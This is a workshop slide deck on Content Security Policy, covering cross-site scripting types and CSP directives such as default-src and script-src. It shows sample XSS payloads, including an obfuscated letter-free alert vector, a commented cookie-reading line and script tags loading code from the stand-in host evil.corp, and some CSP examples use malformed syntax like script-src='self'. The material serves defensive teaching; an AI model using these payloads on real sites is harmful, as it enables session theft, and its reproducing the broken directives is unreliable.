


<!-- _class: lead -->

# Content Security Policies<br>Workshop

>Security isn’t something you buy it’s something you do!

---
## Learning objectives 👩🏽‍🏫

- 👨🏼‍💻 Awareness and understanding of certain types of web app attacks
- 🐞 Exploring and learning Content Security Policies and how they can mitigate attacks
- 🤩 Inspire to increase understanding of Application Security (AppSec) 
- 🤗 Have fun while learning! 
---

# Agenda

```
09:00 - 09:30 - Why do we need CSP - the risk of injections
              - What is CSP
              - How can we use CSP
09:30 - 11:00 - CSP directives - with a ☕️ break :
              - "default-src"
              - "script-src" - "style-src" - "font-src"
              - "connect-src"
              - Media directives - "img-src" and "media-src"
11:00 - 11:30 - Reporting URI - logging violation issues
              - "report-uri" directive
              - Migration approach for your existing project
11:45 - 12:00 - Summary
```
---
# Disclaimer

- I'm not an expert but I'm here to learn and I share what I've learned so far in the journey
- Application Security is a broad topic - this workshop has it's focus on CSP and defending certain types of attacks
- The perspective is depended on experience, personal journey in security and many other factors
- The more we learn about cyber security, the more we realise how complex it is
- Please share your thoughts, ideas and experiences

---
<style scoped>
section h1 {
  font-size: 1.5rem;
  color: red;
  text-align: center;
}

</style>
# Warning ⚠️⚠️⚠️

- Warning: Please do not attempt to hack any computer system without legal permission to do so. Unauthorised computer hacking is illegal and can be punished
- Innbrudd i datasystem
  - Lovdata §204 https://lovdata.no/lov/2005-05-20-28/§204
  - _"Med bot eller fengsel inntil 2 år straffes den som ved å bryte en beskyttelse eller ved annen uberettiget fremgangsmåte skaffer seg tilgang til datasystem eller del av det"_

---
<style scoped>
section h1 {
  font-size: 12rem;
  color: red;
  text-align: center;
  
}
</style>

# &lt;

---

<style scoped>
section code {
  text-align: left;
  font-size: 1.1rem;
  background-color:black;
  color: white;
  
}
section h1 {
  font-size: 3rem;
  color: red;
  text-align: center;
}
</style>

# 😬😳🫨🤯

`""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()`

<!-- source: https://inventropy.us/blog/constructing-an-xss-vector-using-no-letters  -->
---
<style scoped>
section h1 {
  font-size: 14rem;
  color: red;
  text-align: center;
}
</style>

# XSS

---
<style scoped>
section code {
  font-size: 1.2rem;
}
</style>

```javascript
Function("alert(1)")()
```
<!--# Function("alert(1)")(); -->
<!--# Function("alert(document.cookie)")(); -->

---

# Top Most Dangerous Software Weaknesses

1. Out-of-bounds Write - (overwrite memory - C/C++)
2. Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')
3. Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

Source: [MITRE - cwe.mitre.org - 2023](https://cwe.mitre.org/top25/archive/2023/2023_top25_list.html)

---

# XSS - Cross-Site Scripting 

* Is a misnomer - Wrong name, nothing cross site about it
* A better name is "Java Script Injection" or "Content Injection"
* Easy to fix - difficult to fix at scale

---

# Why do we need CSP - 1 / 2

The primary goal of CSP is to mitigate and report XSS attacks!

* Content Security Policy (CSP) is an added layer of security
* XSS attacks exploit the browser's trust in the content received from the server
* Malicious scripts are executed by the victim's browser because the browser trusts the source of the content 

---

# Why do we need CSP - 2 / 2

* CSP helps to detect and mitigate certain types of attacks
  - Cross-Site Scripting (XSS) and data injection attacks
  - Attacks are used for data theft, site defacement, malware distribution etc.
* XSS ranked as 3rd on the OWASP TOP 10 list

---

# What is CSP?

From the W3C* definition :

>This [document](https://www.w3.org/TR/CSP3/#intro) defines Content Security Policy (CSP), a tool which developers can use to lock down their applications in various ways, mitigating the risk of content injection vulnerabilities such as cross-site scripting, and reducing the privilege with which their applications execute.

`*W3C = World Wide Web Consortium`

---

# Types of XSS attacks

There are several types of XSS:

|XSS      |-     |
|---------|------|
|Reflected|Type 1|
|Stored   |Type 2|
|DOM Based|Type 0|

`DOM = Document Object Model - W3C standard`

---

# Reflected XSS attack - 1 / 2

Reflected XSS occurs when user input is immediately returned by a web application in an error message, search result, or any other response that includes some or all of the input provided by the user as part of the request, without that data being made safe to render in the browser, and without permanently storing the user provided data.


Example:
```html
https://insecure-web.com/comment?message=<script src=https//evil.corp/badscript.js></script>
```

---



---

# Stored (persistent) XSS attack

Stored XSS generally occurs when user input is stored on the target server, such as in a database, in a message forum, visitor log, comment field, etc. And then a victim is able to retrieve the stored data from the web application without that data being made safe to render in the browser.

 Instead of a decent comment on the blog's input field, the attacker write:
```html
<script src='https//evil.corp/badscript.js'/>
```

---


---

# Terms to help organize types of XSS - 1 / 2

* **Server XSS** - occurs when untrusted user supplied data is included in an HTTP response generated by the server. 
* **Client XSS** - occurs when untrusted user supplied data is used to update the DOM with an unsafe JavaScript call. A JavaScript call is considered unsafe if it can be used to introduce valid JavaScript into the DOM.

---
# Terms to help organize types of XSS - 2 / 2

|  XSS     |        Server          |       Client        | 
|----------|------------------------|---------------------|
| Stored   | Stored Server XSS      | Stored Client XSS   |
| Reflected| Reflected Server XSS   | Reflected Client XSS|

---

## How can we use CSP to mitigate XSS
 
In your `<head>` section<br>`Content-Security-Policy: <policy-directive>; <policy-directive>`

Example:

```html
<meta http-equiv="Content-Security-Policy" content="Your Policy Definition here ...">
```

---

# XSS - Reflected (type-1)

Let's explore this type of XSS.

Demo

neste what 

---

<!-- _class: lead -->

# Explore directives

## `default-src` - `script-src`<br>`style-src` - `font-src`

---

# Directive : `default-src`

If a [`default-src`](https://www.w3.org/TR/CSP3/#directive-default-src) directive is present in a policy, its value will be used as the policy’s default source list. That is, given `default-src 'none';` `script-src 'self'`, script requests will use `'self'` as the source list to match against. Other requests will use `'none'`.
Test code:
```html
<head>
...
  <meta http-equiv="Content-Security-Policy" content="default-src 'none';">
...
</head>
```

---

# Directive : `script-src`

The [script-src](https://www.w3.org/TR/CSP3/#directive-script-src) directive restricts the locations from which scripts may be executed. This includes not only URLs loaded directly into script elements, but also things like inline script blocks and XSLT stylesheets [XSLT] which can trigger script execution. 

Test code:
```html
<head>
...
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src='self'; ">
...
</head>
```

---

# Directive : `font-src`

```html
<head>
...
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src='self'; style-src='self'; font-src='self'; ">
...
</head>
```


---
<!-- _class: lead -->

# Explore directive

## `connect-src` - `media-src`


---

<!-- _class: lead -->

# Reporting violations of directives<br>`report-uri`

